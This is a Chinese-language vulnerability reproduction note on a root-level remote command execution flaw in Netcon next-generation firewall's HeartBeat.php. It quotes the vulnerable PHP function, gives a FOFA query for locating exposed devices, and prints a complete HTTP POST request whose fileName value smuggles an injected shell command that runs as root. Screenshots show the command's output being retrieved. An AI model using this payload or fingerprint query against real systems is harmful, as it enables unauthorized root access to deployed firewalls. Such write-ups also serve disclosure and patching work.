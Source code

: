 # 网康 下一代防火墙 HeartBeat.php 远程命令执行漏洞

## 漏洞描述

网康 下一代防火墙 HeartBeat.php文件存在远程命令执行漏洞，攻击者通过构造请求包即可获取服务器Root权限

## 漏洞影响

```
奇安信 网康下一代防火墙
```

## FOFA

```
app="网康科技-下一代防火墙"
```

## 漏洞复现

登录页面如下

![image-20230314085835290](images/image-20230314085835290.png)

出现漏洞的文件 applications/Models/NS/Rpc/HeartBeat.php

![image-20230314085853048](images/image-20230314085853048.png)

```
public function delTestFile($fileName){
	    if(dirname($fileName) == '/var/www/tmp'){
		$cmd = "/bin/rm -f {$fileName}";
		putenv("CMD=$cmd");
		$msg = shell_exec('/var/www/html/scripts/exec_cmd');
	    }
	    return time();
	}
```

调用方法 delTestFile，fileName参数可控，调用的 exec_cmd 文件为Root权限文件，构造请求包进行命令执行

```
POST /directdata/direct/router HTTP/1.1
Host: 
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"NS_Rpc_HeartBeat","method":"delTestFile","data": ["/var/www/tmp/1.txt;id>2.txt"],"type":"rpc","tid":11,"f8839p7rqtj":"="}
```

![image-20230314085915971](images/image-20230314085915971.png)

访问写入的文件

![image-20230314085928381](images/image-20230314085928381.png)